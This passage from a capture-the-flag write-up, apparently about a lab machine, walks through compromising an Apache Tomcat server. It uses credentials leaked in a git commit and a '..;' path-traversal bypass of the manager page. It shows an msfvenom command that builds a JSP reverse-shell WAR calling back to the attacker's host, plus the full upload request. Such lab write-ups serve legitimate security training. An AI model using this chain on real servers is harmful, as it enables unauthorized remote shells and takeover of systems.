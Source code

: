 ```

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   59.93 ms 10.10.14.1
2   60.05 ms 10.10.10.250

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 13 19:48:54 2021 -- 1 IP address (1 host up) scanned in 48.85 seconds
```

When viewing the commit history, there is a commit `http://10.10.10.250:8080/root/seal_market/commit/ac210325afd2f6ae17cce84a8aa42805ce5fd010` with a comment "Adding tomcat configuration". It contains credentials in `seal_market-master/tomcat/tomcat-users.xml`:

`<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>`

Here is useful information for Tomcat pentetration: https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat

Although `https://10.10.10.250/manager/html` cannot be accessed, `https://10.10.10.250/manager/status` can be accessed with the credentials `tomcat:42MrHBf*z8{Z%`. To access the manager/html page, path traversal must be used: `https://10.10.10.250/manager/status/..;/html`

## Exploitation and user.txt
A War file can be uploaded to gain a reverse shell. 
1. Generate an msfvenom war payload with `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.165 LPORT=1337 -f war -o payload.war`
2. Use BurpSuite to intercept and send a post request containing `payload.war`

```
POST /manager/status/..;/html/upload?org.apache.catalina.filters.CSRF_NONCE=1A84327863C89FBD7646A9235DF59BC3 HTTP/1.1
Host: 10.10.10.250
Cookie: JSESSIONID=D4667DE236DC3662763DCB3ED1062585; JSESSIONID=node06cjtymn23dhaoa3zkm929f5u14.node0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.250/manager/status/..;/html
Content-Type: multipart/form-data; boundary=---------------------------5962015423903397352762163284
Content-Length: 1330
Origin: https://10.10.10.250
Authorization: Basic dG9tY2F0OjQyTXJIQmYqejh7WiU=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close

-----------------------------5962015423903397352762163284
Content-Disposition: form-data; name="deployWar"; filename="payload.war"
Content-Type: application/octet-stream

(trimmed payload)
```
